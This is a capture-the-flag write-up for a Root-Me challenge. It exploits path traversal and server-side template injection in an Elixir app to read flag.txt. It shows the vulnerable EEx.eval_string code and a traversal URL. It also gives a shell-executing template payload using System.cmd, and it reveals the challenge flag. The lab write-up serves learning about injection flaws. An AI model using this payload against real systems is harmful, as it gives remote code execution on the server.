



In this challenge we exploit `SSTI` in `Elixir`.

The vulnerable code is in `template_engine.ex` file:
```elixir
defmodule CloudService.TemplateEngine do
  def render_view(view, bindings \\ []) do
    filepath = Path.join ["lib/views", view <> ".eex"]

    case File.read filepath do
      {:ok, file} -> EEx.eval_string(file, assigns: bindings)
      {:error, error} -> raise "internal server error (#{Atom.to_string error})"
    end
  end
end
```

As you can see, it uses `eval_string`, so if we'll manage to execute our own `view`, we can achieve `RCE`.

In addition, we exploit `Path Traversal` vulnerability, here:
```
http://challenge01.root-me.org:59089/?page=index
```

For example, we can ask for this, and it still works:
```
http://challenge01.root-me.org:59089/?page=../../lib/views/index
```

So, first let's check for this vulnerability, this will be our payload, of course base64 encoded:
```
<%= 7 * 7 %>
```




Then, will read `flag.txt` using this payload, of course base64 encoded:
```
<%= elem(System.cmd("/bin/sh", ["-c", "cat flag.txt"]), 0) %>
```



**Flag:** ***`RM{EEx_C@n_b3_DanGeR0u$:)!}`***
